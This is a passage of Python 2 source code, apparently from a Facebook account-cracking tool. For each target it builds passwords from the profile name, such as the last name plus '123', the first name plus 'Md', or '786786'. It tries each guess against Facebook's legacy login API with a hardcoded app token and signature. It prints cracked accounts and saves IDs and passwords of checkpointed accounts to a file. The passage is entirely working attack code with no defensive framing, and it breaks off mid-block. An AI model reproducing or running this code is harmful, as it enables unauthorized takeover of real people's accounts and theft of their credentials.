 				               print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				               print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				               print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				               print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass2 + '\n'
				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'								
						       print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']									
						       print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user							
						       print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										
						           pass4 = b['first_name'] + 'Md'											
			                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load(data)												
			                                   if 'access_token' in q:		
						                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                   z = json.loads(x.text)
				                                   print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				                                   print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				                                   print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user											
				                                   print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass4 + '\n'											
				                                   oks.append(user+pass4)
                                                           else:
			                                           if 'www.facebook.com' in q["error_msg"]:
				                                       print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				                                       print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                       print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                       print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass4 + '\n'
				                                       cek = open("out/super_cp.txt", "a")
				                                       cek.write("ID:" +user+ " Pw:" +pass4+"\n")
				                                       cek.close()
				                                       cekpoint.append(user+pass4)					
					                           else:									
						                       pass5 = '786786'							
						                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")								
						                       q = json.load(data)								
						                       if 'access_token' in q:	
						                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])